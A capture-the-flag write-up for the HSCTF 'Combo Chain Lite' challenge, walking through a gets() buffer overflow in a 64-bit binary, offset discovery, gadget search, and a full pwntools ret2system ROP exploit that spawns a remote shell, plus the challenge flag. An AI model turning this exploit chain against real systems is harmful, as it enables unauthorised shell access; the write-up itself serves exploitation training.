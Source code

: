 # Combo Chain Lite

![Title](images/title.png)

## Initial Thoughts

* 64 bit ELF
* probably some form of ROP(return oriented programming)
* exploring binary reveals we are given system address in the string output
* We can exploit this if an overflow is available in order to return to system and run /bin/sh

# Walkthrough

We are given the source code

<details>
	<summary>Source</summary>

```c
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

void vuln() {
	char dest[8];
	printf("Here's your free computer: %p\n", system);
	printf("Dude you hear about that new game called /bin/sh");
	printf("? Enter the right combo for some COMBO CARNAGE!: ");
	gets(dest);
}

int main() {
	setbuf(stdout, NULL);
	gid_t gid = getegid();
	setresgid(gid,gid,gid);
	vuln();
	return 0;
```
</details>

The obvious gets vulnerability stands out with the system print out and /bin/sh in the string points directly to a standard ROP (confirmed in the hint for the challenge)

## Find the padding required for our payload

```c
pwn cyclicpwn cyclic 20 | ./combo-chain-lite ; sudo dmesg | tail
```

![Padding](images/padding.png)

The IP is 0000000061616165

```c
pwn cyclic -l 0x0000000061616165
```

The result is __16__

Given that we have system and we see /bin/sh in the string out put can can asssume popping a shell will be simple. The ELF is 64 bit which will require a little more extra work popping parameters into the register. Lets check for some gadgets!

## Check for ROP gadgets

```c
ROPgadget --binary ./combo-chain-lite
```

![ROP](images/rop.png)

__0x0000000000401273 : pop rdi ; ret__ is perfect

We will save this address for our python script and combine it with system and /bin/sh to pop a shell.

## Craft the Exploit

* Open GDB, set a break at main. Run the program and search for the /bin/sh string. Save the address
* Craft a python script that extracts the given system address, creates a payload with the proper padding in the following order
1. Padding
2. rdi pop
3. /bin/sh address
4. system address

* See below for the python code

<details>
	<summary>Exploit</summary>

```python
#!/usr/bin/env python

from pwn import *
SERVER = True
if SERVER:
	host, port = 'pwn.hsctf.com', 3131
	p = remote(host, port)
else:
	p = process('./combo-chain-lite')


p.recvuntil("Here's your free computer: ")
system = int(p.recv(14), 16)
bash = 0x402051
rdi_pop = 0x0000000000401273
#craft payload
padding = "A"*16
payload = padding
payload+= p64(rdi_pop)
payload+= p64(bash)
payload+= p64(system)
p.sendline(payload)
p.interactive()
```
</details>

<details>
	<summary>Flag</summary>

hsctf{wheeeeeee_that_was_fun}
</details>

## Info Links

[64-bit Return Oriented Programming](https://crypto.stanford.edu/~blynn/rop/)